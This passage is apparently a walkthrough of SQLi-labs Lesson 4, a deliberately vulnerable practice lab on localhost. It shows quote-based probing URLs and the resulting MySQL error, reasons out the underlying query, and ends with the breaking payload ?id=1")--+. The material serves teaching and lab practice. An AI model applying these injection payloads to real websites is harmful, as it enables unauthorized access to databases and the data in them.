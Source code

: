 #### 4. Lesson 4 - ``GET - Error based - Double Quote - String``

```
http://127.0.0.1/sqli-labs/Less-4/
http://127.0.0.1/sqli-labs/Less-4/?id=1
http://localhost/sqli-labs/Less-4/?id=1'
```

![](images/4/1.png)

![](images/4/2.png)

![](images/4/3.png)

```
http://localhost/sqli-labs/Less-4/?id=1"
```

![](images/4/4.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

```
'"1"") LIMIT 0,1' at line 1
'"1"") LIMIT 0,1'
'   "1"") LIMIT 0,1   '
'   "1"   ") LIMIT 0,1   '
'   "  1"   ") LIMIT 0,1   '
1"
```

```sql
select login_name, password from table where id=("our_input")
```

```
http://localhost/sqli-labs/Less-4/?id=1")--+
```

![](images/4/5.png)
